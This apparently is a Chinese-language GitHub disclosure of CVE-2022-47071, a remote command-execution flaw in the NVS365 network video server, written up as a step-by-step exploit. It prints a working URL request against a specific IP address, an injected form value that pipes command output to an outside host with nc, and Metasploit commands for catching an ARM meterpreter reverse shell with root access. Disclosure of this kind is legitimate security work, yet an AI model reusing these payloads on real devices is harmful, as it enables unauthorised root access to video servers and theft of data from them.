 # NVS365网络视频服务器后台任意命令执行漏洞(CVE-2022-47071)

# [CVSS:9.8分:点击跳转](https://nvd.nist.gov/vuln/detail/CVE-2022-47071 )


# [该漏洞关联上一份漏洞 《NVS365网络视频服务器密码信息未授权访问漏洞》](https://github.com/Sylon001/NVS-365-Camera/tree/master/NVS365%20Network%20Video%20Server%20Password%20Information%20Unauthorized%20Access%20Vulnerability)

其实也不用关联
后面发现不需要登陆也可以触发命令执行漏洞，只需要请求url和提交data就行

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

![](./images/media/image1.png){width="5.764583333333333in"
height="1.9277777777777778in"}

漏洞版本：

NVS-365-V01

![](./images/media/image2.png){width="5.764583333333333in"
height="3.66875in"}

该漏洞可任意触发任意命令，获取服务器shell等

[http://188.59.188.232:8085/?jcpcmd=userpasswd%20-act%20list](http://188.59.188.232:8085/?jcpcmd=userpasswd -act list)

![](./images/media/3.jpg){width="5.760416666666667in"
height="0.9388888888888889in"}

在网络管理这块 可直接触发RCE漏洞

![](./images/media/4.jpg){width="5.764583333333333in"
height="2.6305555555555555in"}


触发命令执行命令

Pwd:

result=%09%09&address=\|pwd\|nc ip 端口 &size=16

![lQLPJxSMXaaSNu5bzQVWsJRF7Rolhi8uA4XLQJdAZgA_1366_91](./images/media/9.jpg){width="5.7625in"
height="0.3840277777777778in"}

Uname -a

![](./images/media/10.jpg){width="5.761111111111111in"
height="3.9583333333333335in"}

Id: root权限

![](./images/media/11.jpg){width="5.758333333333334in"
height="2.7375in"}

上传shell，metasploit生成linux ram木马

![](./images/media/12.jpg){width="5.7625in"
height="3.7423611111111112in"}

Msf监听：

msf \> use exploit/multi/handler

msf \> set payload linux/armle/meterpreter/reverse_tcp

msf \> set LHOST xxx.xxx.xxx.xxx

msf \> set PORT 4466

msf \> run

![](./images/media/13.jpg){width="5.763194444444444in"
height="5.479166666666667in"}

进入shell

![](./images/media/image14.png){width="2.8645833333333335in"
height="0.875in"}


## security researcher
name1:   hefei    

Please contact email: Hefei.coffee@aliyun.com 

